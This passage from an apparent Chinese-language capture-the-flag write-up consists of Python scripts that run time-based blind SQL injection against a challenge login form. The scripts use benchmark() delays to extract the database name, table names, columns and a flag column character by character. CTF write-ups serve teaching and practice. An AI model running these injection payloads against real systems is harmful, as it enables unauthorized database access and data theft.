    for mid in range(32, 127):
        # payload = (
        #     "'or(if(ascii(mid((database()),{0},1))={1},benchmark(10000000,md5('1')),null))or'"
        # ).format(i, mid)
        # ctf
        # payload = (
        #     "'or(if(ascii(mid((select(group_concat(table_name))from(information_schema.tables)where(table_schema=(database()))),{0},1))={1},benchmark(10000000,md5('1')),null))or'"
        # ).format(i, mid)
        # flaggg,user
        # payload = (
        #     "'or(if(ascii(mid((select(group_concat(column_name))from(information_schema.columns)where(table_name='flaggg')),{0},1))={1},benchmark(10000000,md5('1')),null))or'"
        # ).format(i, mid)
        # cmd
        payload = (
            "'or(if(ascii(mid((select(group_concat(cmd))from(ctf.flaggg)),{0},1))={1},benchmark(10000000,md5('1')),null))or'"
        ).format(i, mid)
        data = {
            "username": payload,
            "password": "test",
            "submit": ""
        }
        start_time = time.time()
        try:
            r = requests.post(url, data, timeout=6)
        except Exception as e:
            print("请求异常，跳过", e)
            continue
        last_time = time.time() - start_time
        print(f"第{i}位，尝试ascii {mid} ({chr(mid)})，耗时 {last_time:.2f}s")
        if last_time > right_time:
            target += chr(mid)
            print(f"第{i}位爆破成功: {chr(mid)}，当前结果: {target}")
            found = True
            break
    if not found:
        print("爆破结束，最终结果为：", target)
        break

```

## Really Easy SQL

一样的，加个进度条玩😜

```python
import requests
import time
from tqdm import tqdm

url = "http://b9477b4a-bb8f-4de0-a52f-2992cbe9f9b5.node5.buuoj.cn:81/index.php"
maxlen = 50
target = ""
right_time = 1.3

print(f"[*] SQL时间盲注，目标: {url}")

for i in range(1, maxlen+1):
    found = False
    for mid in tqdm(range(32, 127), desc=f"爆破第{i}位", ncols=70):
        payload = (
            "'or(if(ascii(mid((select(group_concat(cmd))from(ctf.flaggg)),{0},1))={1},benchmark(10000000,md5('1')),null))or'"
        ).format(i, mid)
        data = {
            "username": payload,
            "password": "test",
            "submit": ""
        }
        start_time = time.time()
        try:
            r = requests.post(url, data, timeout=6)
        except Exception:
            continue
        last_time = time.time() - start_time
        if last_time > right_time:
            target += chr(mid)
            tqdm.write(f"第{i}位爆破成功: {chr(mid)}，当前结果: {target}")
            found = True
            break
    if not found:
        tqdm.write(f"爆破结束，最终结果为：{target}")
        break


tqdm.write(f"\n[#] 爆破完毕，最终内容：{target}")

```

